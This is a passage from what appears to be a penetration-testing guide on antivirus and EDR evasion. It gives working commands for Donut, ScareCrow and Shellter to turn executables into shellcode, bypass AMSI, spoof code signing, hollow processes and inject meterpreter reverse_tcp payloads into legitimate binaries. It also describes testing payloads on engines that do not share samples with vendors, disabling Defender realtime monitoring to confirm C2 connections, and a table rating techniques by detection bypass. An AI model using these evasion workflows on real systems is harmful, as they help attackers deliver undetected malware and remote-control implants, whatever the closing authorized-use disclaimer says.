cd donut
make

# Convert a .NET EXE to shellcode
./donut -f 1 -a 2 -o shellcode.bin payload.exe

# With arguments
./donut -f 1 -a 2 -o shellcode.bin -p "arg1 arg2" payload.exe

# Output as C array
./donut -f 1 -a 2 -t -o shellcode.bin payload.exe

# Options:
# -f 1  = raw shellcode
# -f 2  = base64
# -f 3  = C
# -a 1  = x86, -a 2 = x64, -a 3 = both
# -b    = bypass AMSI/WLDP
```

### ScareCrow

**ScareCrow** generates EDR-evading shellcode loaders with code signing and process injection.

```bash
# Installation
git clone https://github.com/optiv/ScareCrow.git
cd ScareCrow
go build ScareCrow.go

# Generate a loader with process injection into notepad.exe
./ScareCrow -I shellcode.bin -Loader binary -domain microsoft.com

# DLL loader
./ScareCrow -I shellcode.bin -Loader dll -domain microsoft.com

# With process hollowing
./ScareCrow -I shellcode.bin -injection "C:\Windows\System32\notepad.exe"

# Options:
# -Loader binary  = EXE loader
# -Loader dll     = DLL loader  
# -Loader control = Control Panel item (.cpl)
# -domain         = domain to spoof code signing cert from
# -nosign         = skip code signing
```

### Shelter

```bash
# Shellter — polymorphic PE injector
# Installation (Kali)
apt install shellter

# Interactive mode
shellter
# Select PE file (use legitimate x86 binary like putty.exe)
# Select auto mode
# Choose payload (meterpreter/reverse_tcp)
# Enter LHOST, LPORT
```

---

## Testing AV Evasion

### VirusTotal

> **Warning:** **Never submit payloads you intend to use in an engagement to VirusTotal.** VirusTotal shares samples with all AV vendor partners. Your payload will be analyzed, signatures will be created, and it will be burned within hours.

```bash
# Check a file hash on VirusTotal without submitting the file
# SHA256 hash lookup (file never leaves your system)
sha256sum payload.exe
# Search the hash at: https://www.virustotal.com/gui/file/<hash>
# If hash not found = not previously seen (good sign, but not definitive)
```

### Antiscan.me

**Antiscan.me** scans against multiple AV engines but **does NOT share samples with vendors**. Safe for operational use.

```
# Upload payload to https://antiscan.me
# Results show detection across ~20 AV engines
# Samples are not shared — operationally safe
```

### Local Testing Workflow

```powershell
# Step 1: Test with Windows Defender enabled
# Move payload to test VM, observe if Defender quarantines it

# Step 2: Check Defender detection events
Get-WinEvent -LogName "Microsoft-Windows-Windows Defender/Operational" | 
  Where-Object { $_.Id -eq 1116 } | 
  Select-Object TimeCreated, Message | 
  Format-List

# Step 3: Enable enhanced Defender logging for analysis
Set-MpPreference -MAPSReporting Advanced
Set-MpPreference -SubmitSamplesConsent Never  # Don't submit to Microsoft

# Step 4: Check if payload was quarantined
Get-MpThreat

# Step 5: Manually trigger a Defender scan
Start-MpScan -ScanType QuickScan -ScanPath C:\Users\Public\

# Step 6: Test with Defender temporarily disabled (test VM only!)
Set-MpPreference -DisableRealtimeMonitoring $true
# Run payload, verify C2 connection
Set-MpPreference -DisableRealtimeMonitoring $false
```

### Multi-Engine Offline Testing

```bash
# Install ClamAV for Linux-side testing
apt install clamav
freshclam  # Update signatures
clamscan -r /path/to/payload/

# Test with multiple Windows AV engines
# Set up VMs with: Defender, ESET, Kaspersky, Malwarebytes
# Snapshot VMs before testing, restore after
```

---

## Technique Decision Tree



---

## Comparison: Evasion Techniques vs Detection Methods

| **Technique** | **Bypasses Signature** | **Bypasses Heuristic** | **Bypasses Behavioral** | **Bypasses Cloud/ML** | **Complexity** | **Reliability** |
|---|---|---|---|---|---|---|
| msfvenom encoding | Partial | No | No | No | Low | Low |
| XOR encryption | Yes | Partial | No | Partial | Medium | Medium |
| AES encryption | Yes | Partial | No | Partial | Medium | Medium |
| Custom C loader | Yes | Yes | Partial | High | High | High |
| Process injection | Yes | Yes | Partial | High | High | High |
| LOLBins | Yes | Yes | Partial | High | Low | High |
| Fileless (memory) | Yes | Yes | Partial | High | High | Very High |
| PS Obfuscation | Yes | Partial | No | Partial | Low | Medium |
| AMSI bypass | N/A | N/A | Yes (PS) | N/A | Medium | Medium |
| Code signing | Yes | Yes | Partial | High | High | High |
| Timestomping | No | No | No | No | Low | N/A |
| Sandbox evasion | No | No | Yes | Partial | Medium | High |
| Process hollowing | Yes | Yes | Partial | High | High | High |
| ETW patching | No | No | Yes | Partial | High | High |

---

## Additional Resources

- **LOLBAS Project:** https://lolbas-project.github.io — comprehensive LOLBins database
- **GTFOBins:** https://gtfobins.github.io — Linux equivalents
- **VX-Underground:** Malware sample repository for research
- **VirusTotal Intelligence:** For defenders to track emerging evasion techniques
- **MITRE ATT&CK T1027:** Obfuscated Files or Information
- **MITRE ATT&CK T1055:** Process Injection
- **MITRE ATT&CK T1218:** System Binary Proxy Execution

> **Note:** All techniques documented here are for authorized penetration testing and security research only. Unauthorized use against systems you do not own or have explicit written permission to test is illegal.
